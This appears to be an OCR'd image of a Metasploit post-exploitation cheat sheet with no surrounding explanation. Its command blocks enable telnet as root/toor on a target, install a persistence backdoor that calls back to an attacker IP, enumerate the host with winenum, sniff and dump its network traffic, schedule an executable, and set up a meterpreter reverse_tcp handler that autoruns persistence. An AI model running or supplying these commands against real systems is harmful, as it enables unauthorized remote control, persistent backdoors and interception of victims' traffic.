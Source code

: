 ```
```

```
run gettelnet -u root -p toor
<open a new tab>
telnet <target IP>
root
toor
dir
==========

```
```
run persistence -r <attacker IP> -p 443 -A -x -i 100
background
sessions
(notice the new session opened)
sessions -i <new session Id>
ls
getuid
run winenum
(open a new tab)
cd .msf3/logs/winenum
ls
cd <target name>
ls
==========

```
```
use sniffer
help
sniffer_interfaces
sniffer_start 1
(let run for a while)
sniffer_stats 1
sniffer_dump 1 /root/tmp.cap
sniffer_stop 1
(open the cap file with Wireshark)

run scheduleme -m 1 -u -e /root/test.exe
==========

```
```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <attacker IP>
set LPORT 21
set ExitOnSession false
### set AutoRunScript path to script you want to autorun after exploit is fired
set AutoRunScript persistence -r <target IP> -p 21 -A -X -i 30
exploit -j -z
==========

```
